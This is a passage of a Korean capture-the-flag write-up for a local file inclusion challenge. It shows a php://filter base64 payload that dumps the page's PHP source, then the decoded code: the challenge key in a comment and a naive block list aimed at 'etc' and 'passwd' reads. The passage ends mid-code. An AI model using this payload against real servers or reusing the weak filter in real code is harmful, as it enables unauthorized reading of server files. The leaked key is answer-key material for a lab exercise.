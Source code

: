 ```
php://filter/convert.base64-encode/resource=index.php
```

![](img/Web5_Project3-2.png)

이걸 base64 decode 하면 다음과 같은 소스 코드가 나온다!

```php
<?php
    // Key is : LFI_WITH_BASE64_IS_VERY_DANGEROUS_!
?>
<html>
    <head>
        <title>web05</title>
        <style>
            html, body{
                width: 100%;
                margin: 0;
                padding: 0;
                text-align: center;
            }
            body{
                margin-top: 40px;
            }
            .output{
                width: 800px;
                height: 120px !important;
                border: 1px solid #aaa;
                margin: 0 auto 20px auto;
                overflow-y: scroll;
            }
            .source{
                width: 504px;
                margin: 20px auto;
            }
        </style>
    </head>
    <body>
        <h1>LFI (Local File Inclusion)</h1>
        <form method="get">
        <input type="text" name="url"/>
        <input type="submit" value="ViewFile">
        </form>
        <div class="output">
            <?php
                if(isset($_GET["url"]) && !empty($_GET["url"])){
                    $escape_pattern = array("etc","passwd", "ini", "%", "/");
                    if(in_array($_GET["url"], $escape_pattern)){
                        echo "No Hack~!";
```